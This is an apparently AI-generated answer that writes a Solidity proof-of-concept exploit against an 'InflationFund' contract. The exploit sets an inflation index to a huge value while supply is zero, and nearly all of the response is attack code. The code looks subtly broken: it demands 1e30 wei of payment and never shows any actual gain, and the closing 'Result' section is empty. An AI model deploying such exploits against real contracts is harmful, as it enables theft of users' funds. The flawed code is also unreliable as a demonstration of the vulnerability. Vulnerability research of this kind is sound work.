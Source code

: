 #### Response：

To exploit the described vulnerability, where a malicious user sets the inflationIndex to a very large value when the totalSupply is zero, a Proof of Concept (PoC) can be written to demonstrate how to take advantage of this flaw. Below is the PoC code written in Solidity.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Define the interface for interacting with the InflationFund contract
interface IInflationFund {
    function updateIndex(uint256 newIndex) external payable;
    function deposit() external payable;
    function withdraw(uint256 amount) external;
}

contract Exploit {
    IInflationFund public target;
    uint256 public largeIndex = 1e30; // Large values used for attacks

    // Constructor, set target contract
    constructor(address _target) {
        target = IInflationFund(_target);
    }

    // Used to attack contracts by setting the inflation index to a large value
    function exploit() external payable {
        // Ensure that the provided msg. value is sufficient
        require(msg.value >= largeIndex, "Provide more ethers to exploit");

        // Assuming totalSupply is 0, call updateIndex with a very large value
        target.updateIndex{value: msg.value}(largeIndex);
    }

    // Deposit Ether into the fund
    function depositToFund() external payable {
        target.deposit{value: msg.value}();
    }

    // Withdrawing Ether from the Fund
    function withdrawFromFund(uint256 amount) external {
        target.withdraw(amount);
    }

    // Allow contracts to receive Ethereum
    receive() external payable {}
}

```

#### Result:
